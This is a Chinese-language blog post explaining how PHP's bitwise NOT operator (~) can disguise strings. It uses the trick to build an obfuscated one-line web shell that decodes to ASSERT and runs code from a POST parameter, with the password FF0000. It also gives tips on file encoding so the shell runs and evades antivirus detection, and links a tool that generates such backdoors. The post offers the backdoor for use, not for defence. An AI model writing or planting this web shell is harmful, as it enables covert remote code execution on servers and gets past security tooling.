 ```yaml
---
layout: post
title: PHP中使用按位取反 (~) 函数创建后门
---
```

##### PHP ~ 位运算符

前一段时间老外在 twitter 上爆出个有趣的东西，一串疑似乱码的字符串访问后却能正常输出1337。

PHP: 位运算符 - [http://www.php.net/manual/zh/language.operators.bitwise.php](http://www.php.net/manual/zh/language.operators.bitwise.php)

    ~ $a        Not（按位取反）        将 $a 中为 0 的位设为 1，反之亦然。

PHP 的 ini 设定 error_reporting 使用了按位的值，提供了关闭某个位的真实例子。要显示除了提示级别之外的所有错误。

php.ini 中是这样用的： 

1. E_ALL & ~E_NOTICE 
2. 具体运作方式是先取得 E_ALL 的值： 00000000000000000111011111111111 
3. 再取得 E_NOTICE 的值： 00000000000000000000000000001000 
4. 然后通过 ~ 将其取反： 11111111111111111111111111110111 
5. 最后再用按位与 AND（&）得到两个值中都设定了（为 1）的位： 00000000000000000111011111110111

##### 分析并重现

这个就是当时最原始的代码实现效果：

<center><img src="http://ww3.sinaimg.cn/large/c334041bjw1eqyhz6jli3j208a05x74i.jpg"></center>

当看到这个效果的时候最先想到的就是绕过防火墙等后门的实现，之后开始考虑这是哪种编码方式？后来同李普君测试中发现直接使用echo ~'1';等则会直接输出以上的'乱码'。

<center><img src="http://ww2.sinaimg.cn/large/c334041bjw1eqyhzql66oj209l05pmxg.jpg"></center>

那么我们便可以开始写一句话试试效果了：

    <?php
    $x=~Ÿ¬¬º­«;
    $x($_POST[~¹¹ÏÏÏÏ]);
    ?>
    
<center><img src="http://ww3.sinaimg.cn/large/c334041bjw1eqyi09q1vmj20go07l0tu.jpg"></center>

这里定义$x变量为ASSERT，然后密码为FF0000直接链接后门便可，因为当位取反出来'乱码'后我们再取一次反即可返回正常值。

##### 关于编码与免杀

当重现这个后门的时候我发现，直接Copy过来的直接HTTP状态500，源头是编码问题，上面这种'乱码'其实为西欧（ISO-8859-15）。实际过程中我们遇到了多次后门无法链接出现500的错误均势因为编码问题，如果默认编码无法识别将编码方式保存为这种即可（GBK\UTF8\...均不能成功使用）

<center><img src="http://ww2.sinaimg.cn/large/c334041bjw1eqyi0vx9vtj20g408cn0d.jpg"></center>

##### 留在最后

我们写了一个小脚本为了方便生成：[http://www.hackersoul.com/tools/Createbackdoor-1.php](http://www.hackersoul.com/tools/Createbackdoor-1.php)

使用方法：Createbackdoor-1.php?pwd=password